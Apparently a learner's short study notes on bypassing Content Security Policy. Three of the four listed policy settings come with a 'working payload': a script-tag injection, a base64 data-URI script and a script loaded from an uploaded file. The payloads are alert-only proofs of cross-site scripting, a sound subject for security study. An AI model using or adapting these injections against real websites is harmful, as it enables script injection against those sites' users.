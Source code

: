 Daily Notes : Day 86
Content Security Policy Bypasses  - Part 1 

1. Unsafe Inline 
 Content-Security-Policy: script-src https://google.com 'unsafe-inline'; 
Working payload: "/><script>alert(1);</script>

2. Unsafe Eval 
Content-Security-Policy: script-src https://google.com 'unsafe-eval'; 
Working payload: <script src="data:;base64,YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ=="></script>

3. Lack of object-src and default-src
Content-Security-Policy: script-src 'self' ;

4. File Upload + 'self'
Content-Security-Policy: script-src 'self';  object-src 'none' ; 
Working payload: "/>'><script src="/uploads/picture.png.js"></script>
